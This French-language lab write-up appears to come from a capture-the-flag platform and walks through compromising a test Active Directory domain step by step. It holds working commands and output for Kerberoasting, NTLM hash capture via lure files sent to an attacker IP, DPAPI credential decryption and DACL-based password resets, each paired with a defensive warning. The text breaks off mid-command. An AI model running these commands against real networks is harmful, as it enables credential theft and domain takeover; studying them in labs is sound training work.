> **TL;DR** — Compromission complète du domaine `city.local` à partir de **zéro credential** : des credentials hardcodés dans un binaire ouvrent la porte, puis Kerberoasting, capture NTLM, DPAPI et abus d'ACL s'enchaînent jusqu'à un webshell IIS et `SYSTEM` via EfsPotato.
{: .prompt-info }

| | |
|---|---|
| **Plateforme** | HackSmarter |
| **Cible** | DC du domaine `city.local` — `10.0.29.184` |
| **OS** | Windows Server |
| **Point de départ** | Aucun credential |
| **Techniques** | Reverse PyInstaller, Kerberoasting, NTLM capture, Targeted Kerberoast, DPAPI, ACL abuse, EfsPotato |

## Chaîne d'attaque

Chaque étape exploite une mauvaise configuration qui donne accès à de nouveaux credentials ou privilèges :

```
Site web → emails @city.local (information leakage)
    ↓
svc_services_portal:PortAl1337
(credentials base64 hardcodés dans binaire PyInstaller)
    ↓
clerk.john:clerkhill
(Kerberoasting → SPN → crack TGS hash)
    ↓
jon.peters:1234heresjonny
(NTLM Capture → ntlm_theft .lnk → Responder)
    ↓
nina.soto:123nina321
(GenericWrite → Targeted Kerberoast → crack TGS)
    ↓
emma.hayes:!Gemma4James!
(DPAPI → WIM backup → masterkey + credential blob)
    ↓
sam.brooks → WinRM shell
(WriteDacl → FullControl → reset password → enable account)
    ↓
web_admin:Hacked123!
(GenericWrite OU → FullControl CITYOPS → ldapmodify → reset)
    ↓
IIS AppPool\DefaultAppPool (RCE)
(RunasCs → webshell .aspx → C:\inetpub\wwwroot\uploads\)
    ↓
nt authority\system
(SeImpersonatePrivilege → EfsPotato CVE-2021-36942)
    ↓
Administrator → Domain Admin ✓
```

---

## 1. Reconnaissance

La cible est le DC du domaine `city.local`, accessible via VPN à l'adresse `10.0.29.184`.

### 1.1 Scan de ports

```bash
nmap -sC -sV -p- 10.0.29.184
```



- **Port 80/443** → Serveur web IIS — à explorer pour de l'OSINT
- **Port 88** → Kerberos — confirme que cette machine est bien un DC
- **Port 389** → LDAP — base de données Active Directory
- **Port 445** → SMB — partages réseau
- **Port 5985** → WinRM — accès shell distant si on obtient des credentials valides

### 1.2 Enumération SMB anonyme

On teste la null session sur SMB :

```bash
nxc smb 10.0.29.184 -u '' -p '' --shares
nxc smb 10.0.29.184 -u '' -p '' --users
```


La null session est refusée. Le compte Guest est désactivé. LDAP anonymous bind est également bloqué.

---

## 2. OSINT — Découverte de usernames via le site web

### 2.1 Exploration du site web

Le serveur web sur le port 80 expose le site institutionnel de la mairie (City Hall). En naviguant sur les différentes pages, la section **"Our Team"** liste les membres de l'équipe avec leurs adresses email internes.



En consultant le code source HTML de la page, les mêmes adresses apparaissent dans le formulaire de contact. On extrait les usernames (partie avant @) pour construire notre wordlist :

```
emma.hayes@city.local     → IT Helpdesk
jon.peters@city.local     → Administration
rita.cho@city.local       → Public Relations
nina.soto@city.local      → City Planner
Administrator@city.local  → Email général
```

> [!WARNING]
> Exposer des adresses email internes `@city.local` sur un site web public constitue une fuite d'information (CWE-200). Ces adresses deviennent directement des candidats pour l'énumération AD et les attaques de type password spray.

### 2.2 Validation des usernames avec Kerbrute

Kerbrute envoie des AS-REQ pour valider les comptes — pas de logs 4625, contrairement à un spray SMB classique. Les détails sur Kerberos sont dans [l'article dédié](/posts/kerberos/).

```bash
kerbrute userenum -d city.local --dc 10.0.29.184 users.txt
```

```
[+] VALID USERNAME: emma.hayes@city.local
[+] VALID USERNAME: jon.peters@city.local
[+] VALID USERNAME: rita.cho@city.local
[+] VALID USERNAME: nina.soto@city.local
[+] VALID USERNAME: administrator@city.local

Done! Tested 17 usernames (5 valid) in 0.340 seconds
```



5 comptes valides confirmés. On dispose maintenant d'une liste d'utilisateurs réels du domaine, ce qui ouvre la voie aux attaques suivantes.

---

## 3. Initial Access — Reverse Engineering du binaire

### 3.1 Découverte du binaire

En continuant l'exploration du site web, une deuxième page (`/documents-forms.html`) propose le téléchargement d'un outil appelé **City Services Portal**, un outil officiel de la mairie pour accéder aux services en ligne. Il est disponible en version Windows (`.exe`) et Linux (`.bin`).



La FAQ de la page est particulièrement révélatrice : elle indique que l'outil utilise **un service account** pour s'authentifier automatiquement sur le domaine, sans que l'utilisateur ait besoin de créer un compte. Cela laisse fortement penser que des credentials sont **hardcodés** dans le binaire.

```bash
wget http://10.0.29.184/city_services_portal.exe
wget http://10.0.29.184/city_services_portal.bin
```

### 3.2 Extraction du code source (PyInstaller)

Le binaire est un exécutable PyInstaller — le code Python est juste emballé, pas chiffré. `pyinstxtractor` déballe tout :

```bash
python3 pyinstxtractor.py city_services_portal.exe
```

```
[+] Processing city_services_portal.exe
[+] Pyinstaller version: 2.1+
[+] Python version: 3.11
[+] Found 987 files in CArchive
[+] Possible entry point: city_services_portalv2.pyc   ← fichier principal
[+] Successfully extracted pyinstaller archive
```


### 3.3 Recherche de credentials dans le code

On utilise la commande `strings` sur le fichier `.pyc` extrait pour chercher des chaînes de texte lisibles, en filtrant sur des mots-clés liés aux credentials :

```bash
strings city_services_portal.exe_extracted/city_services_portalv2.pyc \
  | grep -iE 'pass|user|b64|domain|auth'
```

```
username_b64
password_b64
c3ZjX3NlcnZpY2VzX3BvcnRhbA==    ← username en base64
UG9ydEFsMTMzNw==                 ← password en base64
city.local
DC-CC.city.local
```


### 3.4 Décodage des credentials

```bash
echo 'c3ZjX3NlcnZpY2VzX3BvcnRhbA==' | base64 -d
# → svc_services_portal

echo 'UG9ydEFsMTMzNw==' | base64 -d
# → PortAl1337
```



On valide les credentials sur le DC :

```bash
nxc smb 10.0.29.184 -u 'svc_services_portal' -p 'PortAl1337'
# → [+] city.local\svc_services_portal:PortAl1337 ✓
```



> [!WARNING]
> Des credentials hardcodés dans un binaire, même encodés en base64, sont accessibles à quiconque télécharge l'application. PyInstaller ne protège pas le code source. Pour les comptes de service, utiliser des **gMSA** (Group Managed Service Accounts) qui génèrent des mots de passe aléatoires automatiquement.

---

## 4. Kerberoasting — clerk.john

### 4.1 Principe du Kerberoasting

Maintenant qu'on a un compte authentifié (`svc_services_portal`), on peut interagir avec Kerberos de façon plus poussée.

Dans Active Directory, certains comptes ont un attribut **SPN** (Service Principal Name), un identifiant qui dit "ce compte fait tourner tel service réseau" (ex: `HTTP/serveur.domaine.local`). Ce sont généralement des comptes de service.

Le mécanisme est le suivant : n'importe quel utilisateur authentifié peut demander un **ticket TGS** (Ticket Granting Service) pour accéder à un service identifié par son SPN. Ce ticket est **chiffré avec le hash NTLM** du compte qui possède ce SPN. On peut donc :

1. Demander un ticket TGS pour tous les SPN du domaine
2. Récupérer ces tickets chiffrés avec les hashes des comptes
3. Cracker ces hashes **hors ligne** avec hashcat — sans aucune interaction supplémentaire avec le DC

### 4.2 Enumération et récupération du hash

```bash
impacket-GetUserSPNs city.local/svc_services_portal:PortAl1337 \
  -dc-ip 10.0.29.184 -request
```

```
ServicePrincipalName       Name        PasswordLastSet
-------------------------  ----------  -------------------
HTTP/clerkjohn.city.local  clerk.john  2025-10-24 10:26:28

$krb5tgs$23$*clerk.john$CITY.LOCAL$city.local/clerk.john*$7cdd3f4f...
```



On obtient un hash au format `$krb5tgs$23$`, c'est un hash Kerberos Type 23 (RC4-HMAC), le **mode 13100** de hashcat.

### 4.3 Crack du hash

```bash
echo '$krb5tgs$23$*clerk.john$...' > clerk_john.hash

hashcat -m 13100 clerk_john.hash /usr/share/wordlists/rockyou.txt
```

```
$krb5tgs$23$*clerk.john$...:clerkhill
Status: Cracked
```



```bash
nxc smb 10.0.29.184 -u 'clerk.john' -p 'clerkhill'
# → [+] city.local\clerk.john:clerkhill ✓
```

> [!WARNING]
> Le compte `clerk.john` avait un SPN configuré avec un mot de passe faible présent dans `rockyou.txt`. Les comptes avec SPN doivent avoir des mots de passe longs et complexes (>25 caractères), ou être remplacés par des gMSA.

---

## 5. NTLM Hash Capture — jon.peters

### 5.1 Enumération avec clerk.john

Avec `clerk.john` on énumère les shares SMB accessibles :

```bash
nxc smb 10.0.29.184 -u 'clerk.john' -p 'clerkhill' --shares
```

```
Share      Permissions  Remark
-----      -----------  ------
Backups                 
Uploads    READ,WRITE   ← accès en écriture !
```

On explore le contenu du share `Uploads` :

```bash
smbclient //10.0.29.184/Uploads -U 'city.local\clerk.john%clerkhill'
smb: \> ls
  Council_Draft.txt
  Staff_Contacts.txt
  WriteAccess_Jon.Peters_DC-CC-Uploads.eml    ← très intéressant
```


### 5.2 Analyse de l'email

On télécharge et lit le fichier `.eml` :

```
From: Emma Hayes <emma.hayes@city.local>
To: Jon Peters <jon.peters@city.local>

Hi Jon,
I've granted you write access to \\DC-CC\Uploads.
Files actively edited by you: Staff_Contacts.txt
The share uses NTLM authentication.
```



Deux informations critiques dans cet email :

1. Jon Peters **accède régulièrement** à ce share (il édite activement `Staff_Contacts.txt`)
2. Le share utilise **l'authentification NTLM**

Cela ouvre la voie à une attaque NTLM Hash Capture : si on dépose un fichier piégé dans le share, quand Jon Peters accèdera au dossier, Windows tentera automatiquement de s'authentifier via NTLM vers notre IP.

### 5.3 NTLM Capture

On dépose un `.lnk` piégé ([ntlm_theft](https://github.com/Greenwolf/ntlm_theft)) pointant vers notre IP dans le share — quand Jon y accède, Windows envoie son hash NTLMv2 à **Responder**. Les détails sur NTLM sont dans [l'article dédié](/posts/ntlm/).

### 5.4 Génération des fichiers piégés et capture

```bash
# Génération des fichiers piégés
python3 ntlm_theft/ntlm_theft.py -g all -s 10.200.54.252 --filename Staff_changes

# Upload dans le share
cd Staff_changes
smbclient //10.0.29.184/Uploads -U 'city.local\clerk.john%clerkhill' \
  -c 'prompt OFF; mput *'

# Capture avec Responder
sudo responder -I tun0 -v
```

```
[SMB] NTLMv2-SSP Username : CITY\jon.peters
[SMB] NTLMv2-SSP Hash     : jon.peters::CITY:8bda2c27edcadcfa:A0BFA772...
```



### 5.5 Crack du hash NTLMv2

Contrairement au Kerberoasting (mode 13100), le hash NTLMv2 utilise le **mode 5600** de hashcat.

> [!NOTE]
> Chaque capture NTLMv2 produit un hash différent car NTLM génère un **challenge aléatoire** à chaque session. Mais le mot de passe sous-jacent est le même — n'importe quel hash capturé peut être utilisé pour le crack.

```bash
hashcat -m 5600 hash_jon.txt /usr/share/wordlists/rockyou.txt
# → jon.peters::CITY:...:1234heresjonny
```



```bash
nxc smb 10.0.29.184 -u 'jon.peters' -p '1234heresjonny'
# → [+] city.local\jon.peters:1234heresjonny ✓
```

> [!WARNING]
> Laisser un share SMB en écriture accessible à un compte avec peu de privilèges permet à un attaquant d'y déposer des fichiers piégés. Pour se protéger : désactiver LLMNR/NBT-NS, activer **SMB Signing** sur tous les hôtes, ou forcer Kerberos (désactiver NTLM).

---

## 6. Targeted Kerberoasting — nina.soto

### 6.1 Analyse BloodHound

On lance BloodHound pour cartographier les droits dans le domaine avec les credentials de `jon.peters` :

```bash
bloodhound-python -u 'jon.peters' -p '1234heresjonny' \
  -d city.local -dc DC-CC.city.local -ns 10.0.29.184 -c All
```



BloodHound révèle que `jon.peters` a le droit **GenericWrite** sur trois comptes : `nina.soto`, `maria.clerk`, `paul.roberts`.

### 6.2 Principe du Targeted Kerberoasting

`GenericWrite` sur un objet AD permet de modifier certains de ses attributs. L'attribut `servicePrincipalName` (SPN) détermine si un compte est kerberoastable.

En **ajoutant temporairement un SPN** sur `nina.soto`, on la rend kerberoastable, alors qu'elle ne l'était pas. On demande ensuite un ticket TGS chiffré avec son hash, on le cracke, puis on supprime le SPN pour couvrir nos traces.

L'outil [targetedKerberoast.py](https://github.com/ShutdownRepo/targetedKerberoast) automatise tout ce processus.

### 6.3 Exploitation

```bash
python3 targetedKerberoast/targetedKerberoast.py \
  -u 'jon.peters' -p '1234heresjonny' \
  -d 'city.local' --dc-ip 10.0.29.184
```

```
[+] Printing hash for (nina.soto)
$krb5tgs$23$*nina.soto$CITY.LOCAL$...

[+] Printing hash for (maria.clerk)
$krb5tgs$23$*maria.clerk$CITY.LOCAL$...

[+] Printing hash for (paul.roberts)
$krb5tgs$23$*paul.roberts$CITY.LOCAL$...
```



```bash
hashcat -m 13100 hashes.txt /usr/share/wordlists/rockyou.txt
# → nina.soto:123nina321 ✓
```

```bash
nxc smb 10.0.29.184 -u 'nina.soto' -p '123nina321' --shares
# → Backups    READ    ← accès au share Backups !
```



> [!WARNING]
> `GenericWrite` sur un compte permet d'y ajouter un SPN et de le rendre kerberoastable. Auditer régulièrement les ACLs AD avec BloodHound et appliquer le principe de moindre privilège.

---

## 7. DPAPI Credential Dumping — emma.hayes

### 7.1 Exploration du share Backups

```bash
smbclient //10.0.29.184/Backups -U 'city.local\nina.soto%123nina321'
smb: \> ls
  Documents Backup\
  UserProfileBackups\

smb: \> cd UserProfileBackups
smb: \> ls
  clerk.john_ProfileBackup_0729.wim   (69 MB)
  sam.brooks_ProfileBackup_0728.wim   (130 KB)
```


Un fichier `.wim` (Windows Imaging Format) est une **sauvegarde complète du profil Windows** d'un utilisateur, tout ce qui se trouve dans `C:\Users\nom_utilisateur\` est conservé dedans.

### 7.2 Extraction du WIM et découverte des fichiers DPAPI

```bash
sudo wimextract clerk.john_ProfileBackup_0729.wim 1 \
  --dest-dir=/tmp/clerk_profile

find /tmp/clerk_profile -type f | grep -v '.lnk'
```

```
/tmp/clerk_profile/Desktop/message_emma.eml           ← email sur le bureau
/tmp/clerk_profile/AppData/Roaming/Microsoft/Protect/
  S-1-5-21-.../de222e76-cb5d-418f-a1c2-...            ← masterkey DPAPI
/tmp/clerk_profile/AppData/Roaming/Microsoft/Credentials/
  03128079C6E14F37F5AEBDD69E344291                     ← blob chiffré
```


L'email sur le bureau révèle qu'Emma a stocké ses credentials dans le **Credential Manager** de `clerk.john` (protégé par DPAPI). Puisqu'on a les fichiers DPAPI de clerk.john dans le WIM et qu'on connaît son mot de passe (`clerkhill`), on peut tout décrypter.

### 7.3 Décryptage DPAPI

DPAPI protège les secrets du profil utilisateur : le masterkey est dérivé du mot de passe + SID, les blobs sont chiffrés avec le masterkey. Mot de passe connu + profil accessible = on décrypte tout offline.

### 7.4 Décryptage avec impacket

```bash
# Étape 1 : Dériver le masterkey
impacket-dpapi masterkey \
  -file '/tmp/clerk_profile/AppData/Roaming/Microsoft/Protect/S-1-5-21-.../de222e76-...' \
  -sid S-1-5-21-407732331-1521580060-1819249925-1103 \
  -password 'clerkhill'

# → Decrypted key: 0xedfc873c4b843cb27b9e0f5a4e3d...
```



```bash
# Étape 2 : Décrypter le blob de credentials
impacket-dpapi credential \
  -file '/tmp/clerk_profile/AppData/Roaming/Microsoft/Credentials/03128079...' \
  -key 0xedfc873c4b843cb27b9e0f5a4e3d...

# → Username : city.local\emma.hayes
# → Unknown  : !Gemma4James!
```



> [!WARNING]
> DPAPI protège les secrets tant que le profil reste sur la machine. Dès qu'une sauvegarde `.wim` est accessible sur un share SMB sans chiffrement, et que le mot de passe de l'utilisateur est connu — la protection tombe. Ne jamais stocker des backups de profils sans chiffrement ni restriction d'accès.

---

## 8. ACL Abuse — WriteDacl sur sam.brooks

### 8.1 Analyse BloodHound d'emma.hayes

On relance BloodHound avec les credentials d'`emma.hayes` :



BloodHound révèle qu'`emma.hayes` a des droits très étendus :

- **WriteDacl** sur `sam.brooks`, `alex.king`, `rita.cho` → peut modifier leurs ACLs
- **GenericWrite** sur `web_admin` → peut modifier ses attributs
- **GenericWrite** sur l'OU `CITYOPS` → peut modifier les attributs de cette OU

`sam.brooks` est membre du groupe **Remote Management Users** → connexion via WinRM possible.



### 8.2 Exploitation

`WriteDacl` permet de modifier la DACL d'un objet — on se donne `FullControl` sur `sam.brooks`, puis on force un reset de mot de passe :

```bash
# Étape 1 : Se donner FullControl sur sam.brooks
impacket-dacledit -action 'write' -rights 'FullControl' \
  -principal 'emma.hayes' -target 'sam.brooks' \
  'city.local'/'emma.hayes':'!Gemma4James!' -dc-ip 10.0.29.184
# → [*] DACL modified successfully!

# Étape 2 : Reset du mot de passe
net rpc password "sam.brooks" 'Hacked123!' \
  -U "city.local"/"emma.hayes"%'!Gemma4James!' -S 10.0.29.184

# Étape 3 : Réactiver le compte (il était désactivé)
bloodyAD --host 10.0.29.184 -d city.local \
  -u emma.hayes -p '!Gemma4James!' \
